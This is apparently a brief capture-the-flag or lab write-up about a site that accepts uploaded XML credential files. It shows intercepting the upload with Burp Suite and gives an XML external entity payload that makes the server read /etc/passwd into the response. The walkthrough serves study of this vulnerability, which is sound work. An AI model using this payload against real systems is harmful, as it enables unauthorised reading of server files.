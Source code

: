We are given a website with a function to upload an `XML` file with the given format

```xml
<creds> 
<user>test</user> 
<password>test</password> 
</creds>
```

![](https://i.imgur.com/AxSxRTH.png)

We can create a **XML** file with the content as shown above and try to upload it then fire up `burpsuite`, intercept request and send to **repeater**  

![](https://i.imgur.com/AqGNo2c.png)


Surely, as we can see in the above image our result is been passed to the `user` and `password` field, this means we can get our **XML injection** to execute in this area of the response, by using the following payload

```xml
!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<creds> 
<user>&example;</user> 
<password>test</password> 
</creds>
```

